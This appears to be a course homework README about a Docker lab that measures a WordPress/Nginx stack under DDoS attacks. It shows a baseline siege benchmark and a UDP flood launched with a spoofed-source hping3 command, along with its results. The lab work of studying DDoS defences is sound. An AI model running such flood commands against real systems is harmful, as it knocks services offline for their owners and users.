# Highload Software Architecture 8 Lesson 17 Homework

DDoS Attacks
---

## Project setup

The project contains a single [docker-compose.yaml](docker-compose.yaml) file for both attacker and defender setups.

The defender part consists of Wordpress/Apache server, MySQL database and Nginx reverse proxy. The performance of the defender setup is
measured using siege.

The attacker part consists of multiple containers, each of which is running a different type of attack.

## Attacks and Defenses

The Defender performance will be measured with:

```shell
siege -i -c 10 -t 10s http://localhost:8080
```

### No attack performed

The defender setup is running without any attack performed. The siege results are as follows:

```shell
Transactions:                   1858 hits
Failed transactions:               0
Availability:                 100.00 %
Response time:                  0.06 secs
Transaction rate:             173.48 trans/sec
Longest transaction:            0.40
Shortest transaction:           0.00
```

### UDP Flood

```shell
hping3 --rand-source --flood --udp nginx -p 8080
```

Siege results:

```shell
Transactions:                   1023 hits
Failed transactions:               0
Availability:                 100.00 %
Response time:                  0.10 secs
Transaction rate:              95.43 trans/sec
Longest transaction:            4.15
Shortest transaction:           0.00
```
